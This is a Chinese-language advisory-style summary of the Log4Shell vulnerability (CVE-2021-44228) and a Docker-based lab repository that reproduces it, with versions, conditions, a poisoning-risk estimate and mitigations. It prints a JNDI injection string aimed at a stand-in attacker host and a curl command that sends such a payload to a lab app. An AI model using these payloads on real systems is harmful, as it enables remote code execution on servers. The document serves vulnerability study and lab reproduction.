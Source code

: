 ## CVE-2021-44228 Log4Shell 远程代码执行

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，可能导致服务器完全控制

**影响版本:** 2.0-beta9 <= version <= 2.15.0 (不包括安全版本 2.12.2, 2.12.3, 和 2.3.1)

**利用条件:** 目标系统使用受影响版本的Log4j2，且允许外部网络访问，日志记录功能开启并且记录用户可控的输入。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228（Log4Shell）是一个严重的安全漏洞，存在于Apache Log4j2 2.0-beta9到2.15.0版本中（不包括安全版本2.12.2、2.12.3和2.3.1）。

**漏洞利用方式：**

该漏洞源于Log4j2中的JNDI（Java Naming and Directory Interface）功能，该功能允许从LDAP和其他JNDI相关端点加载代码。当攻击者能够控制日志消息或日志消息参数时，他们可以利用此功能执行从LDAP服务器加载的任意代码。攻击者通过在Log4j2可以解析的日志消息中插入恶意JNDI查找字符串，例如`${jndi:ldap://attacker.com/evil}`，来触发该漏洞。当Log4j2尝试解析此字符串时，它会向`attacker.com`上的LDAP服务器发出请求，并执行从该服务器返回的Java代码。

提供的POC代码利用了这一点，使用`docker-compose`快速搭建了一个包含漏洞应用(`vul`)、LDAP服务器(`ldap_server`)和恶意代码服务器(`exploit_server`)的实验环境。利用步骤如下：

1.  使用`docker-compose up -d`启动实验环境。
2.  使用`curl`命令向漏洞应用发送包含恶意JNDI查找字符串的HTTP请求，例如：`curl -X GET http://localhost:8080/ -H "X-Api-Version: ${jndi:ldap://my_ldap_server:1389/a}"`。 其中`my_ldap_server`指向 docker-compose 启动的 ldap_server。
3.  LDAP服务器将请求重定向到恶意代码服务器，下载并执行恶意代码。
4.  验证漏洞是否成功利用，通常通过检查`vul`容器上的文件或观察其他系统行为。

**有效性：**

根据漏洞描述、搜索引擎结果和提供的POC代码，可以判断该POC代码是有效的。大量的安全报告和漏洞分析都确认了CVE-2021-44228的可利用性，并且该POC代码提供了一个易于部署的实验环境，用于验证该漏洞。

**投毒风险：**

评估该POC代码的投毒风险较低，大约10%。原因如下：

*   **明确的用途：** 该代码库旨在提供一个用于演示和测试Log4Shell漏洞的实验环境，其主要功能是复现漏洞，方便用户理解和学习。
*   **可见的组件：** 该代码库包含了`docker-compose.yml`文件以及构建LDAP服务器、恶意代码服务器的Dockerfile，这些文件是公开可见的，便于用户检查和审计。
*   **简单的逻辑：** 实验环境的搭建和漏洞利用流程相对简单，易于理解和验证。
*   **潜在的风险：** 尽管该代码库的主要目的是演示漏洞利用，但仍存在潜在的风险。例如，如果用户直接在生产环境中使用该代码库，可能会暴露其系统，受到攻击。此外，恶意攻击者可能会修改该代码库，添加恶意代码，然后传播给不知情的用户。但考虑到公开的性质和广泛的审查，直接包含恶意代码的可能性较低。

**风险缓减：**
* 下载代码后,仔细检查`docker-compose.yml`以及Dockerfile文件,确保没有恶意配置或者代码.
* 运行前务必搭建隔离环境,避免直接在生产环境中使用.

**项目地址:** [ShlomiRex/log4shell_lab](https://github.com/ShlomiRex/log4shell_lab)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)